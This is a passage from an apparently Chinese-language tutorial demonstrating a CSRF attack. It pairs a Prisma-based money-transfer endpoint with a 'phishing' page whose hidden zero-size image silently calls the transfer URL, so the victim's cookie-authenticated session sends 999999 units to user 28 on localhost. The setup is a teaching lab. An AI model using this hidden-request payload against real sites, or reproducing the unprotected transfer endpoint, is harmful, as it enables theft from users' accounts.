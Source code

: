 ```ts
    where: {
      uid: Number(fromUid)
    },
    data: {
      amount: {
        decrement: Number(amount)
      }
    }
  })

  await prisma.money.updateMany({
    where: {
      uid: Number(uid)
    },
    data: {
      amount: {
        increment: Number(amount)
      }
    }
  })

  return Response.json({ success: 'success' })
}
```

## 钓鱼网站代码

src > app > page.tsx

```tsx
export default function Home() {
  return (
    <div className="flex flex-col justify-center items-center p-8">
      <div className="mb-2">钓鱼网</div>
      <img
        width={0}
        height={0}
        src="http://localhost:3000/api/transfer?amount=999999&to=28"
        alt=""
      />
    </div>
  )
}
```

## 进入钓鱼网站，会自动转账

可以看到 3001 端口的钓鱼网，通过图片请求了 3000 端口的银行网，可以看到图片也是携带了 cookie 的
